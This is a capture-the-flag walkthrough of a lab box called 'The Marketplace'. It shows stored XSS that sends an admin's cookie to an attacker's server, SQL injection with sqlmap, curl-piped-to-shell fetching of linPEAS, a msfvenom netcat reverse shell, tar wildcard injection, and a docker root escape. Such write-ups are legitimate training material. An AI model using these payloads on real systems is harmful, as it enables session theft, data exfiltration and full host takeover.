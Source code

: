 # The Marketplace

Lets start with some recon `nmap -A -sS -T4 <IP>`

Rsults:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 13:06 EST
Nmap scan report for 10.10.215.43
Host is up (0.033s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry 
|_/admin
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.96 ms 10.11.0.1
2   33.09 ms 10.10.215.43

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

So as we can see we have a simple structure of an ssh login on port 22 and an http webserver on port 80 that is mirrored for nodejs on port 32768. So lets head over to the website! While looking over the website I will run gobuster in the back to find hidden directories.

Okay so we can signup lets do that first thing that catches my eye is the new listing featurenwe can probably upload a revshell there. (Also gobuster returned nothing intresting.) After trying to upload an image I see they have blocked that by putting a No image placeholder:
![[Screen Shot 2022-03-08 at 7.01.31 PM.png]]

So lets just try an XSS attack! With a simple `<script>alert('Hello!')</script>` in the description it works! we get a succesful alert. So lets take it to the next level and check if anyone (like an admin) is checking our post!

Lets start with making a simple server which can accept post request and log the data to our console! I will be making a node.js server for this because its what I prefer but there are many ways to do it. 

Start with a simple `npm init` then we can make a `server.js` file and add some simple code:

```js
const express = require('express')
const app = express()
const port = 3000
var bodyParser = require('body-parser')

// parse application/x-www-form-urlencoded
app.use(bodyParser.urlencoded({ extended: false }))

// parse application/json
app.use(bodyParser.json())

app.use(function(req, res, next) {
  res.header("Access-Control-Allow-Origin", "*");
  res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
  next();
});

app.post('/cookies', (req, res) => {
  console.log(req.body);
})

app.listen(port, () => {
  console.log(`Malicious app listening on port ${port}`)
})
```

then just run `npm i express body-parser` and were good to go!
![[Screen Shot 2022-03-08 at 5.49.37 PM.png]]

Now back to the website if we change our script tu send post data to `YOURIP/cookies` we should get it logged directly! Easy right? We can use the following code as a test in our console to make sure we get the data.

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    value: 'value'
}));
```

Which should in result give us a simple `{ value: 'value' }` logged to our console! Well congrats we got the server working and ready to steal data! Now lets iinject this into a ticket! 

So as we had before `<script>alert('XSS')</script>` And just replace whats inside the script with what we just tested!

```html
</textarea>
	<script>
		var xhr = new XMLHttpRequest();
		xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
		xhr.setRequestHeader('Content-Type', 'application/json');
		xhr.send(JSON.stringify({
			value: 'value'
		}));
	</script>
```

It works! Perfect now all we have to do is find important data like cookies and send them over by changing the body to:
`cookies: document.cookie`

Also make sure to report the post to the admins so one actually goes check it out!
After doing that we get:
```json
{
  cookies: 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDY3NjMzNTF9.tG4DQ-jnozS-E3h69kXPOSlwPwAbqeskQZq0DkfseJo'
}
```

Cookies! Yay! We can now use firefox dev tools or just a chrome cookie editor extension and change our token to the admins!

![[Screen Shot 2022-03-08 at 7.23.09 PM.png]]

We now have access to the admins panel + our first flag GG! Lets keep going!
If we click on a user we can see this kind of url: `http://10.10.215.43/admin?user=4`
Which I think indicates it runs an SQL query based on users id so we can SQLi that. Lets try it.

Lets Imagine the query goes as such: 
`SELECT * FROM users WHERE id=(user input)`

So what if we tried inserting in the url the following SQL query:
`6 UNION SELECT @@version,1,1,1;---`
 We get a positive result! 
 
 ![[Screen Shot 2022-03-08 at 10.26.04 PM.png]]
 
So now lets run sqlmap on it:
`sqlmap http://<IP>/admin?user=3 --cookie='token=<TOKEN>' --technique=U --delay=2 -dump`

This will give us some juicy info
![[Screen Shot 2022-03-08 at 11.08.44 PM.png]]
Here we have the users table with some hashed passwords. We also get an intresting message:
`Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ`

and it was to `user_id 3` which means thats jake! Lets try logging into
`ssh jake@ip`

![[Screen Shot 2022-03-08 at 11.12.54 PM.png]]

Sick! Were in baby!! We can now just `cat user.txt` and get the second flag!
Time for the best part Priv Esc. I will run a simple [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 

First we can host a server on our Attack Machine: 
`python -m SimpleHTTPServer 80`
Then on our Victim Machine:
`curl <YOUR_IP>/linpeas.sh | sh`

After running linPEAS we have some intresting info:

```
(michael) NOPASSWD: /opt/backups/backup.sh
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

Contents of `/opt/backups/backup.sh`:
```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So we see that we can run the file wthout a password which is good and the file is using * a wildcard character which we can exploit! First in our Attacker Machine we need to create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=<YOUR_IP> lport=9999 R`
After we get the payload back we can now inject it into a file on the victim machine using these following commands:
```bash
echo '<YOUR_PAYLOAD>' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

now if we open a `nc -nvlp 9999` on our machine and try to run: `sudo -u michael /opt/backups/backup.sh` we get an error about backup.tar permissions for michael so lets just `mv backup.tar bk.tar` and now if we run it again we get a reverse shell for michael!
![[Screen Shot 2022-03-09 at 11.27.51 AM.png]]

Lets just run a quick `python -c 'import pty; pty.spawn("/bin/sh")'` to get a better shell. So as we saw earlier in linPEAS michael is  docker user so we can exploit that with a quick [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) search! If we just scroll down to ==sudo== we can find the following payload:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Which if we just run, and then check who we are with `whoami`, we are now root!
GG! Was a fun one some SQLi, XSS, Wildcard PrivEsc and Docker. See ya next time!

